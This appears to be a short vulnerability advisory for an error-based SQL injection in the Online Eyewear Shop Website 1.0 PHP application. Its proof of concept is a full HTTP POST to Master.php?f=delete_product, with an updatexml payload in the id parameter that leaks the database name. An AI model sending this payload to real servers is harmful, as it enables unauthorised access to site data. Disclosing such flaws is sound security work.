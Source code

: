 ## Online Eyewear Shop Website has a front-end SQL injection vulnerability

## Affected version: 
Online Eyewear Shop Website - 1.0

## Software:
https://www.sourcecodester.com/php/16089/online-eyewear-shop-website-using-php-and-mysql-free-download.html

## Vulnerability File:
/oews/classes/Master.php?f=delete_product

## Description:
Online Eyewear Shop Website1.0 has a SQL injection attack in /oews/classes/Master.php?f=delete_product, and the attack parameter is id. Attackers can exploit this vulnerability to directly obtain sensitive information from the server.

Status: CRITICAL

POC
```
POST /oews/classes/Master.php?f=delete_product HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 5
Origin: http://localhost
Connection: close
Referer: http://localhost/oews/admin/?page=products
Cookie: PHPSESSID=af5dsp386jat1uspen8v4e8hhq
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

id=2%27%20and%20updatexml(1,concat(0x7e,(database())),3)--%20q
```

Get the database name directly through the error report: oews_db

![CleanShot 2024-10-09 at 11 41 59@2x](https://github.com/user-attachments/assets/c6337151-4556-47f1-a3f0-b90b79305591)

## Code Analysis

![CleanShot 2024-10-09 at 11 43 44@2x](https://github.com/user-attachments/assets/9173c0c4-6f1f-432b-ab0d-a1324720f853)


